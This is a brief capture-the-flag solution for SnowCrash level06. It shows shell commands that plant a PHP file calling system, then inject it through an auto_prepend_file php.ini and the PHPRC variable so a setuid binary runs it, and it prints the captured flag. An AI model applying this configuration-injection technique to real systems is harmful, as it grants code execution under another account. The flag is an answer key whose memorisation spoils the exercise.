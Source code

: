 # FLAG06

```bash
echo '<?php system("/bin/getflag"); exit; ?>' > /tmp/hack.php
level06@SnowCrash:~$ echo "auto_prepend_file=/tmp/hack.php" > /tmp/myphp.ini
level06@SnowCrash:~$ export PHPRC=/tmp/myphp.ini
level06@SnowCrash:~$ ./level06 
```

getflag -> "wiok45aaoguiboiki2tuin6ub"
